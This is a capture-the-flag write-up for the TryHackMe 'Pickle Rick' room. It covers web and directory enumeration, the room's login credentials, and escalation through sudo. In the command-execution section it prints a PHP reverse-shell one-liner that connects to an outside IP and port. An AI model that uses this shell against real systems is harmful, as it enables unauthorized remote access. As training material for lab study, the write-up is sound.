





# Pickle Rick – TryHackMe Write-Up

**Room:** Pickle Rick  
**Difficulty:** Easy  
**Target IP:** 10.66.148.130

---

## Overview

This room focuses on basic web enumeration, command execution, and privilege escalation.  
The objective is to find **three ingredients** to help Rick turn back into a human.

---

## Enumeration

We began with an Nmap scan to identify open ports and services.

```bash
nmap -sC -sV  nmap.txt 10.66.148.130
```


### Open Ports
- 22/tcp – SSH
- 80/tcp – HTTP

---

## Web Enumeration

Accessing the target IP displayed a simple webpage.




Inspecting the page source revealed a possible username:

```text
R1ckRul3s
```


---

## Directory Enumeration

Gobuster was used to enumerate hidden directories.

```bash
gobuster dir -u http://10.66.148.130 -w /usr/share/wordlists/dirb/common.txt
```


### Discovered Paths
- /assets/
- /robots.txt
- /login.php

---

## robots.txt

Accessing `robots.txt` revealed a suspicious string:

```text
Wubbalubbadubdub
```



---

## Login

Using the discovered credentials, we logged in via `/login.php`.

- Username: R1ckRul3s  
- Password: Wubbalubbadubdub  


After logging in, a command execution panel was available.




---

## Command Execution – First Ingredient

We did a reverse shell.

```bash
php -r '$sock=fsockopen("192.168.155.222",1234);exec("sh <&3 >&3 2>&3");'
```


The **first ingredient** was found.


---

## Further Enumeration – Second Ingredient

A file named `clue.txt` was discovered, providing a useful hint.


Exploring the home directory of user **rick**, we found the **second ingredient**.



---

## Privilege Escalation

We checked sudo permissions.

```bash
sudo -l
```



The user was allowed to run commands as root.  
We escalated privileges with:

```bash
sudo su
```

---

## Root Flag – Third Ingredient

With root access, we navigated to `/root` and found the **third and final ingredient**.


---

## Conclusion

- Web and directory enumeration performed
- Command execution functionality exploited
- Privilege escalation via misconfigured sudo permissions
- All three ingredients successfully collected

**Room completed successfully.**
